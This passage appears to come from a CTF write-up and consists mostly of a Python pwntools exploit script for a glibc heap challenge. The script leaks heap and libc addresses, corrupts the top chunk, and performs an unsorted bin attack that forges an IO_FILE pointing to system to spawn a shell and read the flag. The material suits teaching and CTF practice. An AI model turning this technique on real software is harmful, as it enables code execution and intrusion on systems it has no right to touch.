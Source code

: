    ```py
   
   def edit(content):
       p.sendlineafter(b':',b'2')
       p.sendlineafter(b"it",str(len(content)).encode())
       p.sendafter(b"name",content)
   
   def show():
       p.sendlineafter(b':',b'3')
   
   # 回收heap地址
   heap_addr = eval(p.recv(14).decode())-0x10
   success("heap_addr ==> " + hex(heap_addr))
   
   # 泄漏libc地址
   add(0x10,b"lzl")
   payload = p64(0)*3 + p64(0xfc1)
   edit(payload)
   add(0x1000,b"lzl")
   
   add(0x10,b"a"*8)
   show()
   p.recv()
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = (addr-(main_arena_offset+0x58)-0x610)
   success("libc_addr==>"+hex(libc_base))
   
   IO_list_all_addr = libc_base + libc.symbols["_IO_list_all"]
   success("IO_list_all_addr ==>"+hex(IO_list_all_addr))
   system_addr = libc_base+libc.sym["system"]
   free_hook_addr = libc_base+libc.sym["__free_hook"]
   success("system_addr==>"+hex(system_addr))
   success("free_hook_addr==>"+hex(free_hook_addr))
   
   # unsorted bin attack 覆盖IO_list_all指针
   # 构造IO_file
   payload = p64(0)*2
   # file头
   payload+= b"/bin/sh\x00" + p64(0x60)
   # unsorted bin attack
   payload+= p64(0) + p64(IO_list_all_addr-0x10)
   # _IO_write_ptr > _IO_write_base
   payload+= p64(0) + p64(1)
   payload = payload.ljust(0xe8,b"\x00")
   payload+= p64(heap_addr + 0x140) + p64(0)*3 + p64(system_addr)
   
   edit(payload)
   p.sendlineafter(b':',b'1')
   p.sendlineafter(b'it',str(0x10).encode())
   p.sendline(b"cat flag")
   p.interactive()
   ```

   

![image-20240811163730006](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408111637069.png)

![image-20240812213203056](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408122132253.png)







